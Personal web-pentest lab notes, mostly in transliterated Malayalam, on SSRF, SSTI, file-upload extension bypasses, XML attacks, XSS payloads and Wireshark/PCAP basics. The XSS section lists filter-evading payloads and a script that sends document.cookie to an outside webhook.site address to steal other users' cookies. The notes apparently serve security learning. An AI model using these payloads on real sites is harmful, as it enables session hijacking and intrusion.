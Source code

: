 1) SSRF->ssrf chyumbol url=https://something/hacker.txt undakum.so first https ennath http aakit send chyth nokuka ok.ini something ennathin shehsam or dot itt nokuka.ie something./hacker.txt.so ingane suffix koduthit dot in shesham namal control chyuna url koduth nokuka ie,something.google.com:443/hacker.txt.  angane enthengilum oke nokuka ok(lab03)

1) SSTI->oru website 404 error engane handle chyunu enn nokaanm.athin enthengilum oru path itt kodukanam.enit namal kodutha aa path reflect chyunenengil avide SSTI,XSS oke try chyanam.ivide http://url/test{{4-1}}  enn kodukumbol pageil test3 enn kanikunu.so SSTI und
2) url paramter il name={{2-1}}  enn itt kodukuka.apol 1 enn kanichal SSTI unden artham ok. so `{{_self}}` enn koduth nokuka.apol error varum.eth template aanenum chelapo kanichakum ok

1) FILE UPLOAD->oru php file undaki ath upload chyan patunundon nokanam ok
2) .php file upload chyan patunilengil .php3 or .php5 ennoke itt upload chyan nokuka ok

1) XML->eth exploit chyumbozhum & ine url encode chyanam.illengil server ath oru seperator aayi aan kanuka
2) POST request il mathramala GET requst ile paramter il um xml attack try chyth nokam

1) XSS->`<a href='javascript:alert(1)...'`
2) `<img src=x onerror="alert(0) > </img>"`
3) `<script>ale%2brt(9)</script>`  idumbol enthan sambavikunath enn nokuka ok
4) `<script>eval("al"%2b"ert(9)")</script>`  itt nokinok chelapo xss pop aakum. %2b means + . ivide browser il + ital aakila ok
5) `<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>`  ith itt nokuka
6) paramter il thane namuk var $a="  oke koduth aa script break aakathe extra js add chyan patujnundon nokanam(lab06)
7) php il htmlentities idumbol ath default aayi single qoute encode chyilan thonunu `" , < , >`  ith moonum engande default aayi encode chyun thonunu
8) xss check chyumbl ella charactersum aakunundon nokanam ok
9) ==namal url paramter il `"<>'`  oke italum pageil ath athupoel thane aayirikum reflect chythitundavuka. enum vech athil xss kanamenonumila.so view-source adich nokuka.apol aa characters source page ilum encode chyandirikukayanengil mathram xss in vendi nokiyal mathi oke==
10) website url il /index.php   enn ullidath aadyam enthenilum kodukuka ie, /index.phpslfjslf  apol 404 error enthayalum varum.ennal /index.php kk shesham oru slash itti enthengilum koduthal chelapo error varnamenila.so ath nokanam(lab08).prathyekich form oke filll chythit send chyuna page il oke ok
11) namal xss oke test chyumbol payload koduthit just inspector->console il poi nokuka.apol namal koduth xss enthenglum error vaengil console il kannan patum
12) `<script>document.write('<img src="http://webhook.site/151c86e1-5f18-4983-8c0f-1d615a66f90a?c='%2bdocument.cookie%2b'" />')</script>`   src yil namal control chyuna domain kodukanam.apol namuk mattullavarude cookie kitum ok


# PCAP
1) oru connection undakunath kanikunathan [SYN] , [SYN, ACK]  and [ACK] . syn ennath client server in ayakunath. syn ack ennath server client in response ayakunathan.athayath ok enn kanikan. ack ennath client server in ok enn kanikan ayakunath.so ith moonum aayal connection establish aayi ennartham. athin shesham [PSH, ACK]  ennal namal namuk venda karyangal server ilek push chyunu.athayath enth data aano send chyendath ath send chyunu ennartham.so server athin [ACK]  enn respones tharunu.so venda data kiti kazhinjal server thane connection close aakum.so athin  [FIN, ACK]   enn server message ayakum apol client [FIN, ACK]  enn thirich response idum apol server [ACK] enn response kodukum.angane connection close aayi ennartham ok
2) oru packet analyse chyumbol red colour kanunath client server in ayakuna data aan.Blue colour ennath server client in ayakuna data aan ok
3) Connecting with FTP without TLS is insecure as anyone who can see the traffic, or access a packet capture of the connection is able to see the username and password used as well as all the files retrieved by the user.
4) kore traffic undengil client passive mod ilek pokunundon nokanam. pokunundnegil aa mode ilek pokan use chytha ip nokanam.enit namal tcp connections mati mati nokiyal aa ip inte tcp connectin kanum.apol avide vech namuk vendath chelapo kitiyekam ok
5) port vech search chyan->`tcp.port==[port]` kodukuka.apol aa port ilek poya packets mathram kanikum ok
6) website mathramala ie,http/https  ver pala protocols um tcp thaneyan comunication vendi use chyunath